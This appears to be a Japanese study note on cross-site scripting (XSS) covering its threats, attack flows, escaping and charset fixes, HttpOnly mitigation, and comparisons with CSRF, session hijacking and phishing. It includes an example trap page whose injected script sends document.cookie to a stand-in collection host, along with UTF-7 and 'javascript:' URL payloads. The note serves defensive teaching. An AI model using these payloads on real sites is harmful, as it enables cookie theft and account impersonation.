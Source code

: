 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによって以下のような脅威が発生する。

- ブラウザが保存しているクッキーを取得される
  - 成りすまし
  - クッキーに保存された個人情報の漏洩（ただし、一般的にはクッキーはセッション ID を保持するために使い、データを保存しないことが推奨される）
- 任意のクッキーをブラウザに保存させられる
  - セッション ID が利用者に送り込まれ、セッション ID の固定化攻撃に悪用される
- 画面を書き換えられる

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- ターゲット が罠サイト内に表示された脆弱なサイトをクリックすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

例えば、以下のようなコードで XSS 攻撃が行われる。

```html
<html>
  <body>
    激安商品情報
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

現在では HttpOnly 属性を付与することが増えたため、クッキー値を XSS 攻撃によって盗まれるケースは減ってきた。

しかし、XSS 攻撃による脅威は他にもあり、例えばクレジットカード情報がセキュリティコードも含めて流出することもある。

例えば、以下のような手口で行われる。

- 攻撃者が偽のクレジットカード情報入力画面を用意する
- 攻撃者がクレジットカード情報入力画面に悪意のあるスクリプトを埋め込む
- ターゲットがクレジットカード情報を入力し、入力画面から遷移しようとした時にクレジットカード情報が攻撃者の元へ送信される（XSS 攻撃成立）
- 偽の入力画面から攻撃者が用意した決済エラー画面に遷移する
- 偽の決済エラー画面から正規のクレジットカード情報入力画面に遷移する
- 正規の決済を行う
- 一連のフローによって攻撃されたことに気づかれにくくなる

セキュリティコードは割賦販売法によって企業が保存することは禁止されている。しかし、XSS 攻撃はブラウザ上で行われるため、サーバーに保存した値ではなくターゲットが画面に入力した値が盗まれてしまう。

### XSS の根本的解決と保険的対策

#### 根本的解決

厳密には HTML テキストの入力を許可しない場合と HTML テキストの入力を許可する場合に分けられるが、多くの Web アプリケーションでは HTML テキストの入力を許可しないものを前提とする。（HTML テキストの入力を許可しうる Web アプリケーションの例として、ブログや掲示板など自由度の高い入力仕様があるものが挙げられる。）

- ウェブページに出力する全ての要素に対して、エスケープ処理を施す

  - ウェブページの表示に影響する特別な記号文字（「<」、「>」、「&」等）を、HTML エンティティ（「&lt;」、「&gt;」、「&amp;」等）に置換する
  - HTML タグを出力する場合は、その属性値を必ずダブルクォートで括り、それを「&quot;」にエスケープする
  - JavaScript の document.write メソッドや innerHTML プロパティ等を使用する場合も同様のエスケープ処理を行う

- HTTP レスポンスヘッダの Content-Type フィールドに文字コード（charset）を指定する

  - 文字コードの指定を省略すると、ブラウザが独自にエンコードするが、その挙動を悪用して不正なスクリプトを埋め込むことができる
  - 例えば、一部のブラウザでは「+ADw-script+AD4-alert(+ACI-test+ACI-)+ADsAPA-/script+AD4-」を UTF-7 でエンコードし、「<script>alert('test');</script>」が実行されてしまう（XSS 攻撃）
  - エスケープ処理を行っていても、ブラウザの文字エンコーディングと Web アプリケーションが想定している文字エンコーディングが異なると突破される可能性がある
  - エスケープ処理と合わせ、Web アプリケーションが想定している文字エンコーディングを指定することは必須

- URL を出力するときは、「http://」や 「https://」で始まる URL のみを許可する

  - URL には「javascript:」の形式で始まるものもあり、ウェブページに出力するリンク先や画像の URL が、外部からの入力に依存する形で動的に生成できると XSS 脆弱性が発生する
  - 利用者から入力されたリンク先の URL を「&lt;a href="リンク先の URL">」の形式でウェブページに出力する場合、その URL を「javascript:」で始めることで不正なスクリプトを埋め込める
  - 例えば、` <a href="javascript:alert(document.cookie)"></a>`のようなスクリプトを入れるとクッキー値が表示される

- <script>...</script> 要素の内容を動的に生成しない

  - 外部からの入力に依存して生成されると XSS 脆弱性をうむ
  - 危険なスクリプトを区別するのは非現実的

- スタイルシートを任意のサイトから取り込めるようにしない
  - 生成するウェブページに XSS 攻撃ができるスクリプトが埋め込まれてしまう可能性がある
  - 危険なスクリプトを区別するのは非現実的

#### 保険的対策

基本的には根本的解決を図るべきだが、XSS の対策箇所が多いため、漏れが生じる可能性がある。

以下のような保険的対策をとることで、万が一漏れが生じていた場合に XSS の被害を軽減できる場合がある。

- 入力値に対してバリデーションをかける

  - 英数字などのみを入力可能なフォームでは有効
  - 幅広い文字種入力できるような仕様ではこの対策は取れない
  - 入力値の確認処理を通過した後の文字列の演算結果がスクリプト文字列を形成してしまうプログラムになっている可能性もあるため、あくまで保険にすぎない

- クッキーに HttpOnly 属性を付与する

  - JavaScript からのクッキー読み出しができなくなる
  - サーバー側のセッションを持続させるクッキーは JavaScript が利用する必要はないので、 HttpOnly 属性をつける
  - しかし、クッキーを盗まれなくなるにすぎないため、これだけでは XSS による他の脅威は残ったままであることに注意が必要

### 他の攻撃との比較

#### CSRF との違い

CSRF は利用者を識別しないページにおいて、悪意のあるリクエストを送り、重要な処理（退会・決済・パスワード変更など）を行う攻撃である。
XSS がブラウザ上で実行され、ブラウザ上でできることであれば何でもできるのに対し、CSRF はリクエストに対するサーバー側の処理を悪用するため、サーバー側で用意された処理に限定される。

#### セッションハイジャックとの違い

セッションハイジャックはセッション ID を悪用してターゲットに成りすまし、不正な行動や情報の取得を行う攻撃である。
XSS でセッション ID を取得し、セッションハイジャックへ連鎖するというつながりがある。セッション ID は XSS などで盗み出すほか、セッション ID を推測したり、クッキーを書き換えることでセッション ID を強制するなど、セッションハイジャックに至る方法は複数存在する。

#### フィッシングとの違い

XSS 攻撃によって偽画面が表示されたり遷移したりすることもあるが、フィッシングとは異なる。

フィッシングは Web アプリケーション自体に脆弱性がなくても発生し、利用者側で注意すべきもの（運営側は「当サイトをかたり情報を抜き取ろうとしているケースが増加しています」などの注意喚起をすることぐらいしかできない）である。

一方で、XSS は Web アプリケーション自体に脆弱性があるために発生するものであり、利用者が対策することは不可能か極めて困難であるという違いがある。

## 参考

- 安全な Web アプリケーションの作り方 第 2 版 徳丸浩
- [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity/cross-site-scripting.html)
- [HTTP Cookie の使用](https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies)
- [クレジットカード情報漏洩の手口の動向～なぜ保存禁止のセキュリティコードまで漏洩するのか～](https://youtu.be/fXVasf_Kyhs?si=Ukb-05cmszmKX9BT)
